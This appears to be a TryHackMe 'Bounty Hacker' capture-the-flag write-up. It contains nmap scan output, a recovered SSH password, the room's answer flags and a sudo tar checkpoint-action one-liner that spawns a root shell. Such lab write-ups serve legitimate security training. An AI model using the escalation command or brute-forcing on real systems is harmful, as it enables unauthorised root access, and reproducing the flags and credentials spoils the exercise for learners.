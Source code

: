 TryHackMe.com

box = BountyHacker

export IP=10.10.110.187

# NMAP SCANS

```

Starting Nmap 7.60 ( https://nmap.org ) at 2021-01-21 11:55 GMT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.55% done
Nmap scan report for ip-10-10-110-187.eu-west-1.compute.internal (10.10.110.187)
Host is up (0.00042s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.203.215
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:80:9B:0D:AD:9F (Unknown)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (89%), Linux 2.6.32 - 3.1 (89%), Ubiquiti AirOS 5.5.9 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Linux 3.8 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.42 ms ip-10-10-110-187.eu-west-1.compute.internal (10.10.110.187)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.92 seconds

```

# USERNAMES AND PASSWORDS

- lin:RedDr4gonSynd1cat3

# INTERESTING FINDS

- anonymous login allowed in ftp server(files inside: locks.txt, task.txt)

# TASKS

* Who wrote the task list?
- lin
* Service that can be bruteforced in the machine.
- ssh
* User's password?
- RedDr4gonSynd1cat3 
* user.txt?
- THM{CR1M3_SyNd1C4T3}
* root.txt?
- THM{80UN7Y_h4cK3r}

# PRIVILEGE ESCALATION METHOD

* by using sudo -l and entering the user's password, we can see that /bin/tar can be run as root.
* using gtfobins(https://gtfobins.github.io/gtfobins/tar/) command: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` we can be root.